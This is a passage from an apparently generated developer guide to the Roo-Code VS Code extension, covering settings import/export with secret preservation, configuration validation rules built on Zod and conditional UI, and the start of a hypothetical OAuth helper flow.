	apiProfiles: providerProfilesSchema.extend({
        // Ensure apiConfigs allows missing secret keys during validation
        apiConfigs: z.record(z.string(), providerSettingsSchema.extend({
            apiKey: z.string().optional().nullable(),
            openAiApiKey: z.string().optional().nullable(),
            // ... make ALL secret keys optional/nullable for validation ...
        }))
    }).optional(),
	globalCustomModes: z.array(modeConfigSchema).optional(),
}).passthrough();

export async function importRooSettings(
	contextProxy: ContextProxy,
	providerSettingsManager: ProviderSettingsManager,
	customModesManager: CustomModesManager,
	postStateUpdate: () => Promise<void>, // Callback to refresh UI
): Promise<void> {
	logger.info("Starting settings import...", { ctx: "ExportImport" });
	try {
		// 1. Prompt user to select file
		const openUris = await vscode.window.showOpenDialog(/* ... options ... */);
		if (!openUris || openUris.length === 0) { /* ... handle cancel ... */ return; }
		const importUri = openUris[0];

		// 2. Read and parse file
		const fileContent = await fs.readFile(importUri.fsPath, "utf-8");
		const rawImportedData = JSON.parse(fileContent);

		// 3. Validate imported data
		const validationResult = importedConfigSchema.safeParse(rawImportedData);
		if (!validationResult.success) { /* ... handle validation error ... */ return; }
		const importedData = validationResult.data;
        logger.info(`Importing settings from version ${importedData.version}...`, { ctx: "ExportImport" });
        // TODO: Add version checks

		// 4. Confirmation Dialog
		const confirmation = await vscode.window.showWarningMessage(/* ... warning message ... */);
		if (confirmation !== "Import") { /* ... handle cancel ... */ return; }

		// 5. Apply Imported Settings
		try {
            logger.info("Applying imported settings...", { ctx: "ExportImport" });
			if (importedData.globalSettings) {
				// Use ContextProxy.setValues to update globalState
				await contextProxy.setValues(importedData.globalSettings);
			}
			if (importedData.apiProfiles) {
				// Use ProviderSettingsManager.import to handle profile merging/secrets
				await providerSettingsManager.import(importedData.apiProfiles);
			}
			if (importedData.globalCustomModes) {
				// Use CustomModesManager.import to overwrite global modes file
				await customModesManager.import(importedData.globalCustomModes);
			}
            logger.info("Settings successfully imported.", { ctx: "ExportImport" });
            vscode.window.showInformationMessage("Roo Code settings imported successfully. Please verify/re-enter API keys.");
		} catch (applyError) { /* ... handle apply error ... */ return; }

		// 6. Trigger State Refresh
		await postStateUpdate();

	} catch (error) { /* ... handle outer error ... */ }
}

// --- Conceptual Manager Import Methods ---

// ProviderSettingsManager
// async import(importedProfiles: ProviderProfiles): Promise<void> {
//     await this.lock(async () => {
//         const currentProfiles = await this.load(); // Load existing profiles with secrets
//         const validatedImport = providerProfilesSchema.parse(importedProfiles); // Ensure structure

//         // Merge logic: Iterate imported profiles, try to find matching current profile
//         for (const name in validatedImport.apiConfigs) {
//             const importedConfig = validatedImport.apiConfigs[name];
//             const currentConfig = currentProfiles.apiConfigs[name]; // Match by name primarily

//             // If a match found, preserve existing secrets that are missing in import
//             if (currentConfig) {
//                 SECRET_STATE_KEYS.forEach(key => {
//                     if (currentConfig[key] && !importedConfig[key]) {
//                         importedConfig[key] = currentConfig[key]; // Carry over secret
//                     }
//                 });
//                 // Carry over existing ID if needed
//                 importedConfig.id = importedConfig.id ?? currentConfig.id;
//             }
//             // Ensure new/unmatched profile gets an ID
//             importedConfig.id = importedConfig.id ?? this.generateId();
//         }
//         // Overwrite the entire structure in secrets with the merged data
//         // Note: This replaces ALL profiles, not just merges individual ones.
//         await this.store(validatedImport);
//     });
// }

// CustomModesManager
// async import(globalCustomModes: ModeConfig[]): Promise<void> {
//     await this.queueWrite(async () => {
//         const globalPath = await this.getGlobalCustomModesFilePath();
//         // Validate the incoming array structure
//         const dataToWrite = customModesSettingsSchema.parse({ customModes: globalCustomModes });
//         await fs.writeFile(globalPath, JSON.stringify(dataToWrite, null, 2));
//         await this.refreshMergedState(); // Reload and notify provider
//     });
// }
```

**Explanation:**

*   **`importedConfigSchema`:** Uses Zod to validate the overall structure of the JSON file. It references the `globalSettingsExportSchema` (to ensure only expected non-sensitive fields are present) and the full `providerProfilesSchema` / `modeConfigSchema`. It makes secret keys optional/nullable within the `apiConfigs` validation to allow parsing files where keys were correctly omitted.
*   **`importRooSettings`:** Orchestrates the import. Reads, parses, validates using the schema. Shows a critical confirmation dialog. If confirmed, it calls `.setValues` or `.import` methods on the managers. Includes error handling for each step. Calls the `postStateUpdate` callback on success.
*   **Manager Import Methods (Conceptual):**
    *   `ProviderSettingsManager.import`: Needs locking. Loads current profiles (including secrets). Iterates through the *imported* profiles. For each imported profile, it tries to find a matching *current* profile (by name). If a match is found, it copies any existing secrets from the current profile over to the imported profile object *if the secret is missing in the import* (which it should be). It ensures all imported profiles (new or matched) have IDs. Finally, it completely overwrites the stored `ProviderProfiles` data with the processed `importedProfiles` structure.
    *   `CustomModesManager.import`: Uses the write queue. Validates the incoming array using `customModesSettingsSchema`. Overwrites the `settings/custom_modes.json` file. Calls `refreshMergedState` to reload and notify the UI.

### Command Registration (`src/activate/registerConfigActions.ts` - Conceptual)

*(See code in Chapter 47 - Conceptual Implementation section)*

*   Registers `"roo-code.exportSettings"` and `"roo-code.importSettings"` commands.
*   Handlers get manager instances from the active `ClineProvider`.
*   Handlers call the respective `exportRooSettings` or `importRooSettings` functions. The import handler passes the `provider.postStateToWebview` method as the `postStateUpdate` callback.

## Internal Implementation

1.  **Export:** Command triggers `exportRooSettings` -> Managers provide sanitized data -> `showSaveDialog` -> `fs.writeFile`.
2.  **Import:** Command triggers `importRooSettings` -> `showOpenDialog` -> `fs.readFile` -> `JSON.parse` -> `importedConfigSchema.safeParse` -> `showWarningMessage` -> Managers' `.import`/`.setValues` methods apply changes (handling secrets merge, file overwrites) -> `postStateUpdate` callback triggers UI refresh.

## Modification Guidance

Modifications usually involve changing the scope of exported data or the import merge strategy.

1.  **Changing Exported/Imported Fields:**
    *   **Export:** Modify the relevant export schema (e.g., `globalSettingsExportSchema` in `ContextProxy`) using `.omit()` or `.pick()` to include/exclude fields. **Never add sensitive keys.**
    *   **Import Schema:** Update `importedConfigSchema` in `exportImport.ts` to match the fields included in the export.
    *   **Import Logic:** Update the manager `.import()` methods or `ContextProxy.setValues` if the newly included/excluded fields require special handling during application.

2.  **Modifying Secret Preservation Logic:**
    *   **`ProviderSettingsManager.import`:** Change the logic that merges secrets. For example, add an option (perhaps via another dialog or a setting) to *not* preserve existing secrets, forcing re-entry for all profiles.

3.  **Adding Version Compatibility:**
    *   **`importRooSettings`:** After validating the schema, compare `importedData.version` with the current `VERSION`.
    *   **Migration Functions:** If major versions differ, call specific migration functions (e.g., `migrateV1toV2Settings(importedData)`) that transform the older data structure into the current one *before* passing it to the manager `.import()` methods. Store these migration functions alongside the import/export logic. Abort import if the version difference is too large or migration isn't possible.

**Best Practices:**

*   **NEVER Export Secrets:** Reiterate this. Filter rigorously.
*   **Validate on Import:** Schema validation is crucial for robustness against malformed or outdated files.
*   **Confirm Overwrite:** Always warn the user and get explicit confirmation before applying imported settings.
*   **Clear Feedback:** Use `showInformationMessage` / `showErrorMessage`.
*   **Atomic(ish) Import:** While full atomicity across multiple managers/files is hard, apply changes within a `try...catch` in `importRooSettings` and avoid partial state refreshes if a step fails. The manager methods themselves should ideally be atomic for their domain (using locking/queuing).
*   **Versioning:** Include a version number in the export and check it during import for better long-term compatibility.

**Potential Pitfalls:**

*   **Accidental Secret Export:** Security risk if filtering fails.
*   **Invalid Import File:** Validation failure if file is corrupt, hand-edited incorrectly, or from an incompatible version without migration logic.
*   **Import Overwrite:** User data loss if confirmation is ignored or misunderstood.
*   **Secret Merge Complexity:** Logic to match profiles and preserve secrets can be complex and error-prone, especially if profile IDs or names change.
*   **Partial Import Failures:** Errors during the application phase can leave the configuration in an inconsistent state.

## Conclusion

Configuration Import/Export provides essential flexibility for users managing their Roo-Code setup. By offering commands to export non-sensitive settings (global state, profile structures, global custom modes) to JSON and import them back, Roo-Code facilitates backups, migration, and sharing. The implementation relies on careful aggregation and filtering during export (especially excluding secrets), robust Zod schema validation during import, explicit user confirmation, and dedicated methods within configuration managers to apply the imported data correctly while handling complexities like secret preservation.

Next, we explore specific rules that can be defined within configuration, potentially influencing how settings are applied or validated: [Chapter 48: Configuration Rules](48_configuration_rules.md).
---
# Chapter 48: Configuration Rules

Continuing from [Chapter 47: Configuration Import/Export](47_configuration_import_export.md), which covered managing the entire Roo-Code configuration, this chapter delves into a more specific aspect: defining and applying **Configuration Rules**.

## Motivation: Enforcing Constraints and Dynamic Behavior

While basic settings allow users to configure values, sometimes more complex logic or constraints are needed:

1.  **Conditional Settings:** A setting might only be relevant or applicable if another setting has a specific value (e.g., "AWS Secret Key" is only needed if "AWS Authentication Method" is set to "Credentials", not "Profile").
2.  **Inter-Setting Validation:** The validity of one setting might depend on the value of another (e.g., "Max Output Tokens" should not exceed the model's context window size minus a buffer).
3.  **Dynamic Defaults:** Default values might need to be calculated dynamically based on other settings or the environment.
4.  **Enforcing Best Practices:** Discouraging or warning against specific combinations of settings that are known to perform poorly or cause issues.

Implementing this logic directly within UI components ([Chapter 35: Settings UI Components (WebView)](35_settings_ui_components__webview_.md)) or scattered throughout the codebase can lead to duplication and make the rules hard to manage or understand. **Configuration Rules** provide a conceptual framework (though not necessarily a dedicated single module in the current codebase structure) for defining and applying these dependencies and constraints consistently.

*Note: While Roo-Code might not have a single, dedicated "Configuration Rule Engine" module, the principles are applied implicitly through validation logic within Zod schemas ([Chapter 40: Schemas (Zod)](40_schemas__zod_.md)), conditional rendering/logic within settings UI components, and validation checks performed before saving or using configurations.*

**Central Use Case:** A user selects AWS Bedrock as the provider and chooses the "Credentials" authentication method in the Settings UI.

1.  **UI Logic (`ApiOptions.tsx`):** The component conditionally renders the input fields for "AWS Access Key ID", "AWS Secret Access Key", and optionally "AWS Session Token" *only* when `apiConfiguration.awsAuthMode === 'credentials'`. It hides fields related to AWS profiles. This is a UI-enforced rule based on the `awsAuthMode` setting.
2.  **Validation (`ApiOptions.tsx`, `validateApiConfiguration`):** When the user tries to save, a validation function checks: if `awsAuthMode === 'credentials'`, then `awsAccessKey` and `awsSecretKey` must be non-empty. If `awsAuthMode === 'profile'`, then `awsProfile` must be non-empty. This rule ensures dependent fields are provided.
3.  **Zod Schema (`providerSettingsSchema`):** The Zod schema ([Chapter 40: Schemas (Zod)](40_schemas__zod_.md)) defining the `ProviderSettings` structure could use Zod's `.refine()` or `.superRefine()` methods to codify these cross-field dependencies. This provides a runtime guarantee even if the UI validation is bypassed or fails.
    ```typescript
    // Conceptual Zod refinement in src/schemas/settings.ts
    providerSettingsSchema.superRefine((data, ctx) => {
        if (data.apiProvider === 'bedrock') {
            if (data.awsAuthMode === 'credentials' && (!data.awsAccessKey || !data.awsSecretKey)) {
                // Add an issue if credentials mode but keys are missing
                ctx.addIssue({
                    code: z.ZodIssueCode.custom,
                    path: ["awsAccessKey"], // Associate error with a field
                    message: "Access Key and Secret Key are required for Credentials auth mode.",
                });
            }
            // ... other related checks ...
        }
    });
    ```

## Key Concepts

1.  **Implicit vs. Explicit Rules:**
    *   **Implicit:** Rules naturally enforced by the structure and flow. Examples include standard Zod type/constraint checks (`z.number().min(0)`), UI conditional rendering hiding irrelevant fields, or functions simply ignoring optional settings if they aren't provided.
    *   **Explicit:** Rules involving dependencies between multiple settings or complex conditions. These are actively implemented through:
        *   **Zod Refinements:** Using `.refine` (for single fields) or `.superRefine` (for object-level checks involving multiple fields) within schema definitions ([Chapter 40: Schemas (Zod)](40_schemas__zod_.md)).
        *   **Conditional UI Logic:** Using `if`/`switch` or JSX conditional rendering (`{condition && ...}`) in UI components ([Chapter 35: Settings UI Components (WebView)](35_settings_ui_components__webview_.md)).
        *   **Dedicated Validation Functions:** Separate functions called by the UI or before saving data (e.g., `validateApiConfiguration` in `webview-ui/src/utils/validation.ts`).

2.  **Zod Refinements (`.refine`, `.superRefine`):** Zod's primary mechanism for embedding complex validation logic directly into the schema.
    *   `.refine((value) => condition, message)`: Checks a condition on a single field's value.
    *   `.superRefine((data, ctx) => { ... ctx.addIssue(...) ... })`: Receives the entire object (`data`) being validated and a context (`ctx`). Allows checking relationships between multiple fields and adding specific errors (`ctx.addIssue`) associated with particular paths if rules are violated. This is powerful for inter-setting dependencies.

3.  **Conditional UI Logic:** Settings UI components use the current `cachedState` to determine which controls to display or enable/disable. This enforces usability rules by preventing users from entering conflicting or irrelevant information. For example, Bedrock-specific fields only appear when `apiProvider === 'bedrock'`.

4.  **External Validation Functions:** Logic too complex for Zod refinements or requiring external data (like checking a model ID against a fetched list) can be placed in separate utility functions. These are often called within React `useEffect` hooks in the Settings UI to provide real-time feedback or before enabling the "Save" button.

5.  **Rule Application Points:** Rules are typically enforced at these stages:
    *   **UI Rendering:** Conditional display/enablement of fields based on other settings.
    *   **UI Interaction:** Real-time validation feedback via helper functions, potentially disabling Save.
    *   **Data Loading/Saving/Importing:** Using Zod schema validation (`parse`/`safeParse`) with refinements before persisting data or accepting imported data ([Chapter 9: ProviderSettingsManager](09_providersettingsmanager.md), [Chapter 11: ContextProxy](11_contextproxy.md), [Chapter 47: Configuration Import/Export](47_configuration_import_export.md)).
    *   **Data Usage:** Less common, but checks might occur before using settings (e.g., ensure required API key exists before attempting API call), though validation on save/load is generally preferred.

## Applying Configuration Rules (Examples)

**Use Case 1: Conditional AWS Auth Fields (UI Logic + Zod Refinement)**

*   **Rule:** Show/Require AWS Key/Secret fields only if `apiProvider` is `bedrock` and `awsAuthMode` is `credentials`.
*   **UI (`ApiOptions.tsx`):**
    ```jsx
    {selectedProvider === 'bedrock' && (
        <>
            <Select value={awsAuthMode} onValueChange={(v) => setApiConfigurationField('awsAuthMode', v)}>...</Select>
            {awsAuthMode === 'credentials' && (
                <>
                    <VSCodeTextField label="AWS Access Key ID" value={awsAccessKey} onInput={...} />
                    <VSCodeTextField label="AWS Secret Access Key" type="password" value={awsSecretKey} onInput={...} />
                    {/* ... Session Token ... */}
                </>
            )}
            {awsAuthMode === 'profile' && (
                 <VSCodeTextField label="AWS Profile" value={awsProfile} onInput={...} />
            )}
        </>
    )}
    ```
*   **Schema (`providerSettingsSchema`):** Uses `.superRefine` as shown in the Motivation section to add validation issues if keys are missing when mode is 'credentials', or profile is missing when mode is 'profile'.
*   **Effect:** UI adapts dynamically. Saving invalid combinations is prevented by schema validation during the save process in `ProviderSettingsManager`.

**Use Case 2: Max Tokens vs. Context Window (Validation Function + Zod Constraint)**

*   **Rule:** User-defined `modelMaxTokens` (max output tokens) should not exceed the selected model's `contextWindow` (minus a buffer).
*   **Schema (`providerSettingsSchema`):** `modelMaxTokens: z.number().int().positive().optional()` (Basic positive integer constraint).
*   **Validation Function (`webview-ui/src/utils/validation.ts`):**
    ```typescript
    export function validateApiConfiguration(config: ProviderSettings, modelInfo?: ModelInfo): string | null {
        // ... other checks ...
        if (config.modelMaxTokens && modelInfo?.contextWindow && config.modelMaxTokens > modelInfo.contextWindow) {
             return `Max Output Tokens (${config.modelMaxTokens}) cannot exceed model context window (${modelInfo.contextWindow}).`;
        }
        // ... check if modelMaxTokens exceeds model's specific max output tokens ...
        if (config.modelMaxTokens && modelInfo?.maxTokens && config.modelMaxTokens > modelInfo.maxTokens) {
            return `Max Output Tokens (${config.modelMaxTokens}) cannot exceed model maximum output (${modelInfo.maxTokens}).`;
        }
        return null; // Valid
    }
    ```
*   **UI (`ApiOptions.tsx`):**
    ```typescript
    // Inside ApiOptions component
    useEffect(() => {
        const model = /* Get selected ModelInfo based on config.apiModelId */;
        const error = validateApiConfiguration(apiConfiguration, model);
        setErrorMessage(error); // Update error state passed up to SettingsView
    }, [apiConfiguration, models]); // Re-validate when config or models change

    // SettingsView disables Save button if errorMessage exists
    ```
*   **Effect:** User gets immediate feedback in the UI via `ApiErrorMessage` if they enter an invalid `modelMaxTokens` value relative to the selected model's limits.

**Use Case 3: Ensure Unique Custom Mode Slugs (Zod Refinement)**

*   **Rule:** All modes within the `customModes` array (in `settings/custom_modes.json` or `.roomodes`) must have unique `slug` values.
*   **Schema (`customModesSettingsSchema` in `src/schemas/modes.ts`):**
    ```typescript
    export const customModesSettingsSchema = z.object({
        customModes: z.array(modeConfigSchema).refine((modes) => {
            const slugs = new Set<string>();
            for (const mode of modes) {
                if (slugs.has(mode.slug.toLowerCase())) { // Check case-insensitively
                    return false; // Duplicate found
                }
                slugs.add(mode.slug.toLowerCase());
            }
            return true; // All slugs unique
        }, {
            message: "Mode slugs must be unique (case-insensitive).",
            // Optionally specify the path to associate the error with the array
            // path: ["customModes"],
        }),
    });
    ```
*   **Application Point:** `CustomModesManager.loadModesFromFile` uses `customModesSettingsSchema.safeParse`. If the refinement fails due to duplicate slugs, `safeParse` returns `{ success: false, error: ... }`, and the manager logs an error and returns an empty array, preventing the invalid configuration from being loaded.
*   **Effect:** Prevents corrupted state caused by duplicate mode identifiers.

## Code Walkthrough

The implementation of rules is distributed across schemas, UI components, and validation utilities.

### Zod Schema Refinements (`src/schemas/*.ts`)

*   **Example:** The `customModesSettingsSchema` refinement shown above demonstrates using `.refine` on an array schema. It receives the array, iterates through it, uses a `Set` to track seen slugs (case-insensitively), and returns `false` if a duplicate is encountered. The second argument to `.refine` provides the error message.
*   **Example:** The conceptual `providerSettingsSchema.superRefine` for AWS auth demonstrates checking multiple fields (`apiProvider`, `awsAuthMode`, `awsAccessKey`, etc.) within the refinement function and using `ctx.addIssue` to report errors associated with specific fields (`path: ["awsAccessKey"]`).

### Conditional UI Logic (`webview-ui/src/components/settings/ApiOptions.tsx`)

```typescript
// --- File: webview-ui/src/components/settings/ApiOptions.tsx ---
// ... imports ...

const ApiOptions = ({ apiConfiguration, setApiConfigurationField, ... }) => {
    // ... state for models, errors ...
    const selectedProvider = normalizeApiConfiguration(apiConfiguration)?.apiProvider;
    const awsAuthMode = apiConfiguration?.awsAuthMode;

    // ... validation useEffect calling validateApiConfiguration ...

    return (
        <div>
            {/* Provider Selection */}
            <Select value={selectedProvider} onValueChange={(v) => setApiConfigurationField('apiProvider', v)}>...</Select>

            {/* Conditional Rendering based on selectedProvider */}
            {selectedProvider === 'openai' && ( /* Render OpenAI Key, Base URL, Model fields */ )}
            {selectedProvider === 'anthropic' && ( /* Render Anthropic Key, Base URL fields */ )}
            {selectedProvider === 'bedrock' && (
                <>
                    {/* AWS Auth Mode Selection */}
                    <Select value={awsAuthMode} onValueChange={(v) => setApiConfigurationField('awsAuthMode', v)}>...</Select>
                    {/* Conditionally render fields based on awsAuthMode */}
                    {awsAuthMode === 'credentials' && (
                        <>
                           <VSCodeTextField label="AWS Access Key ID" value={apiConfiguration?.awsAccessKey ?? ""} onInput={(e) => setApiConfigurationField('awsAccessKey', e.target.value)} />
                           {/* Secret Key, Session Token */}
                        </>
                    )}
                    {awsAuthMode === 'profile' && ( /* AWS Profile input */ )}
                    {/* Bedrock Region, Custom ARN, etc. */}
                </>
            )}
            {/* ... other provider sections ... */}

            {/* Common options like Temperature, Max Tokens */}
            <TemperatureControl value={apiConfiguration?.modelTemperature} onChange={(v) => setApiConfigurationField('modelTemperature', v)} />
            {/* ... Max Tokens input ... */}

            {/* Display Validation Errors */}
            <ApiErrorMessage errorMessage={errorMessage} />
        </div>
    );
};
```
*Explanation:* JSX conditional rendering (`{selectedProvider === 'bedrock' && ...}`, `{awsAuthMode === 'credentials' && ...}`) is used extensively to show/hide entire sections or individual fields based on the values of other settings (`selectedProvider`, `awsAuthMode`) stored in the `apiConfiguration` part of the `cachedState`.

### Validation Functions (`webview-ui/src/utils/validation.ts` - Conceptual)

```typescript
// --- File: webview-ui/src/utils/validation.ts ---
import { ProviderSettings, ModelInfo } from "@roo/schemas"; // Use inferred types

/**
 * Validates API configuration settings, checking cross-field dependencies.
 * Returns an error message string if invalid, otherwise null.
 */
export function validateApiConfiguration(config?: ProviderSettings, modelInfo?: ModelInfo): string | null {
    if (!config?.apiProvider) return "API Provider is required.";

    switch (config.apiProvider) {
        case 'openai':
        case 'azure':
            if (!config.openAiApiKey) return "OpenAI/Azure API Key is required.";
            break;
        case 'anthropic':
            if (!config.anthropicApiKey) return "Anthropic API Key is required.";
            break;
        case 'bedrock':
            if (config.awsAuthMode === 'credentials' && (!config.awsAccessKey || !config.awsSecretKey)) {
                return "AWS Access Key and Secret Key are required for Credentials auth mode.";
            }
            if (config.awsAuthMode === 'profile' && !config.awsProfile) {
                return "AWS Profile name is required for Profile auth mode.";
            }
            if (!config.awsRegion && !config.awsCustomArn?.includes('arn:aws:bedrock:')) {
                // Region required unless specified in ARN
                return "AWS Region is required for Bedrock.";
            }
            break;
        // ... cases for other providers ...
    }

    // Check Max Tokens against context window / model limits
    if (config.modelMaxTokens !== undefined && config.modelMaxTokens !== null) {
        if (config.modelMaxTokens <= 0) return "Max Output Tokens must be positive.";
        if (modelInfo?.contextWindow && config.modelMaxTokens > modelInfo.contextWindow) {
             return `Max Output Tokens (${config.modelMaxTokens}) cannot exceed model context window (${modelInfo.contextWindow}).`;
        }
        if (modelInfo?.maxTokens && config.modelMaxTokens > modelInfo.maxTokens) {
            return `Max Output Tokens (${config.modelMaxTokens}) cannot exceed model maximum output (${modelInfo.maxTokens}).`;
        }
    }

    // Check temperature range
    if (config.modelTemperature !== undefined && config.modelTemperature !== null) {
        if (config.modelTemperature < 0 || config.modelTemperature > 2) { // Common range
            return "Temperature must be between 0 and 2.";
        }
    }

    // All checks passed
    return null;
}

/** Validates if a selected model ID is compatible with the selected provider */
export function validateModelId(config?: ProviderSettings, models?: ModelInfo[]): string | null {
    // ... logic to check if config.apiModelId is valid for config.apiProvider ...
    // ... potentially using the fetched 'models' list ...
    return null;
}
```
*Explanation:* `validateApiConfiguration` performs checks based on the selected `apiProvider` (requiring specific keys) and cross-field checks like `modelMaxTokens` vs. `contextWindow`. It returns an error string or `null`. `validateModelId` would perform provider-specific model ID validation.

## Internal Implementation

Configuration rules are not executed by a single engine but are enforced at different points using different mechanisms:

1.  **UI Rendering/Interaction:** React components read the current `cachedState` and use standard JavaScript logic (`if`, `switch`, ternary operators) within their render methods to conditionally display or disable UI elements. Validation functions are called (often within `useEffect`) to update error states, which might disable Save buttons.
2.  **Zod Schema Validation:** When data is loaded (`ProviderSettingsManager.load`, `CustomModesManager.loadModesFromFile`) or about to be saved (`ProviderSettingsManager.store`), `schema.safeParse()` or `schema.parse()` is called. Zod's runtime engine executes the checks defined in the schema, including type checks, constraints, and `.refine`/`.superRefine` functions. If refinements fail, Zod adds `ZodIssue` objects to the error result.
3.  **Save Logic:** Before persisting, `SettingsView.handleSubmit` might check an `isSettingValid` flag (derived from validation function results) before proceeding. The receiving end (`webviewMessageHandler`, Managers) relies on the Zod validation during the load/parse step before storing.

## Modification Guidance

Modifications typically involve adding new rules or changing existing ones.

1.  **Adding a New Rule (e.g., Warn if Temperature > 1.0 for OpenAI):**
    *   **Approach 1 (UI Validation Function):** Add a check to `validateApiConfiguration`:
        ```typescript
        if (config.apiProvider === 'openai' && config.modelTemperature && config.modelTemperature > 1.0) {
            // Return a warning, maybe not a blocking error
            // Or modify ApiErrorMessage to show warnings differently
            return "Warning: Temperature > 1.0 for OpenAI can lead to less predictable results.";
        }
        ```
    *   **Approach 2 (Zod Refinement):** Add a `.superRefine` to `providerSettingsSchema`:
        ```typescript
        providerSettingsSchema.superRefine((data, ctx) => {
            if (data.apiProvider === 'openai' && data.modelTemperature && data.modelTemperature > 1.0) {
                // Could add issue, but might be too strict. Maybe just rely on UI warning.
                // ctx.addIssue({ code: z.ZodIssueCode.custom, path: ["modelTemperature"], message: "..." });
            }
        });
        ```
    *   **Consideration:** UI validation provides immediate feedback. Zod refinement provides a guarantee during save/load but might be too strict for a warning. Often, combining UI feedback with Zod constraints for essential rules is best.

2.  **Changing Conditional Rendering (e.g., Hide Temperature for Specific Model):**
    *   **`ApiOptions.tsx`:** Modify the JSX rendering the `TemperatureControl`. Wrap it in a condition that checks the selected `apiConfiguration.apiModelId` against a list of models where temperature doesn't apply.
        ```jsx
        {selectedModelInfo?.supportsTemperature !== false && ( // Assuming supportsTemperature property
            <TemperatureControl value={apiConfiguration?.modelTemperature} ... />
        )}
        ```

3.  **Modifying a Zod Refinement (e.g., Allow Empty Slug Temporarily during Creation):**
    *   This is tricky. Zod schemas are typically static. For UI state where fields might be temporarily invalid during input (like an empty slug before auto-generation), you often handle validation *outside* the main Zod schema used for final persistence. The "Create Mode" dialog logic uses local state and performs validation *before* constructing the final object to send, rather than relying solely on the main `modeConfigSchema` to validate incomplete intermediate states. Alternatively, use `.optional()` in schemas for fields that can be temporarily empty, and add `.refine` checks that only fail if the field *remains* empty in the final state.

**Best Practices:**

*   **Choose the Right Mechanism:**
    *   Use **UI conditional rendering** for usability rules (hiding irrelevant fields).
    *   Use **UI validation functions** for immediate feedback on complex rules or those needing external data (like model lists).
    *   Use **Zod schema types/constraints** for basic requirements (required fields, number ranges, string formats).
    *   Use **Zod `.refine`/`.superRefine`** for essential cross-field consistency rules that *must* be enforced during save/load.
*   **Keep Rules Close to Data:** Define Zod refinements directly within the schema definitions (`src/schemas/*.ts`) to keep validation logic co-located with the data structure.
*   **Clear Error Messages:** Provide user-friendly error messages in UI validation functions and Zod refinements. Use `ctx.addIssue` with `path` in `.superRefine` to associate errors with specific input fields.
*   **Performance:** Be mindful of complex validation functions or Zod refinements running frequently in the UI (e.g., on every keystroke). Debounce if necessary. Schema validation during load/save is typically fast enough.

**Potential Pitfalls:**

*   **Conflicting Rules:** Implementing the same rule in multiple places (UI validation *and* Zod refinement) can lead to inconsistencies if they diverge. Decide where the rule is best enforced.
*   **Circumvented UI Rules:** Rules enforced only by conditional rendering in the UI can be bypassed if data is imported or modified externally. Zod schema validation provides a more robust guarantee.
*   **Complex Refinements:** Overly complex Zod refinements can be hard to write, debug, and understand. Consider breaking down validation into smaller functions if needed.
*   **Error Reporting:** Zod errors need to be caught (`safeParse`) and translated into user-friendly UI feedback (e.g., highlighting the correct field). Simple logging might not be sufficient for the user.
*   **Performance of UI Validation:** Running complex validation functions on every input change in the UI can degrade responsiveness.

## Conclusion

Configuration Rules, whether implemented implicitly through UI logic or explicitly through Zod schema refinements and validation functions, are essential for maintaining the integrity and usability of Roo-Code's settings. They enforce dependencies between settings, validate user input against constraints and external data (like model capabilities), and guide users by conditionally displaying relevant options. By applying these rules primarily through Zod schemas (for persistence guarantees) and UI logic (for immediate feedback), Roo-Code ensures a more robust and user-friendly configuration experience.

Having covered configuration rules, we look at helpers for authentication flows, particularly relevant for services requiring OAuth. The next chapter discusses [Chapter 49: OAuth Helpers](49_oauth_helpers.md).
---
# Chapter 49: OAuth Helpers

Continuing from [Chapter 48: Configuration Rules](48_configuration_rules.md), which discussed enforcing constraints within settings, this chapter focuses on a specific mechanism used for integrating with external services that require user authentication: **OAuth Helpers**.

## Motivation: Securely Connecting to External Services

Roo-Code might need to integrate with external services that require user authentication via OAuth 2.0. Examples could include:

*   Connecting to a code hosting platform (like GitHub, GitLab) for specific features.
*   Integrating with project management tools.
*   Authenticating with certain cloud providers or APIs that use OAuth.

The OAuth 2.0 Authorization Code flow (or similar flows like PKCE) typically involves:
1.  Redirecting the user to the service's authorization page in their browser.
2.  User logs in and grants permission.
3.  The service redirects the user back to a specific `redirect_uri` registered by the application, providing an authorization `code`.
4.  The application needs to capture this `code` and exchange it (along with a client secret or PKCE verifier) for an access token and potentially a refresh token by making a backend request to the service's token endpoint.
5.  The received tokens need to be stored securely (e.g., using `vscode.ExtensionContext.secrets`) for future API calls.

Handling this flow within a VS Code extension presents challenges:
*   **Redirect URI:** Extensions don't typically run a web server to receive redirects. VS Code provides mechanisms like `vscode.authentication` or custom URI handlers (`vscode.window.registerUriHandler`).
*   **State Management:** A `state` parameter is needed to prevent CSRF attacks and correlate the callback with the initial request.
*   **Token Exchange:** The exchange for tokens usually requires a client secret (which cannot be safely stored in the extension) or PKCE, and involves backend HTTP requests.
*   **Secure Token Storage:** Access and refresh tokens are sensitive and must be stored securely.

The **OAuth Helpers** (conceptually located in `src/services/oauth/` or `src/utils/oauth/`) provide utilities and potentially manage the state needed to facilitate these OAuth flows within the VS Code extension environment, often leveraging built-in VS Code APIs where possible.

*Note: Based on the provided project structure, explicit OAuth helpers beyond potentially using the built-in `vscode.authentication` API might not be extensively implemented yet, or might be part of specific service integrations (like a hypothetical GitHub integration). This chapter describes the general concepts and how such helpers *would* function.*

**Central Use Case (Hypothetical):** Roo-Code wants to add a feature to fetch issues from a private GitLab instance requiring OAuth.

1.  User clicks "Connect to GitLab" in Roo-Code Settings.
2.  The UI triggers a command (e.g., `roo-code.connectGitLab`).
3.  The command handler calls an OAuth helper function, e.g., `oauthHelper.startGitLabAuth()`.
4.  **`startGitLabAuth`:**
    *   Generates a unique `state` parameter and potentially PKCE code verifier/challenge.
    *   Constructs the GitLab authorization URL including `client_id`, `redirect_uri` (pointing to a VS Code URI handler), `scope`, `state`, and PKCE `code_challenge`.
    *   Uses `vscode.env.openExternal(authUrl)` to open the URL in the user's browser.
    *   Starts listening for the callback via a registered `vscode.window.registerUriHandler` or potentially uses `vscode.authentication.getSession`.
5.  **User Interaction:** User logs into GitLab, authorizes Roo-Code. GitLab redirects back to the VS Code URI (e.g., `vscode://<publisher>.<extensionName>/auth/gitlab?code=...&state=...`).
6.  **Callback Handling:** The registered URI handler (or `getSession` callback) receives the URI.
    *   It extracts the `code` and `state` parameters.
    *   It verifies the received `state` matches the one generated earlier.
    *   It calls another helper, e.g., `oauthHelper.exchangeGitLabCode(code, pkceVerifier)`.
7.  **`exchangeGitLabCode`:**
    *   Makes a POST request to GitLab's token endpoint with the `code`, `client_id`, `redirect_uri`, `grant_type=authorization_code`, and PKCE `code_verifier`. *Note: If a client secret is needed, this step ideally happens on a backend server controlled by the extension publisher, not directly in the extension.*
    *   Receives the `access_token` and `refresh_token` in the response.
8.  **Token Storage:** The handler calls `context.secrets.store("gitlabAccessToken", accessToken)` and `context.secrets.store("gitlabRefreshToken", refreshToken)`.
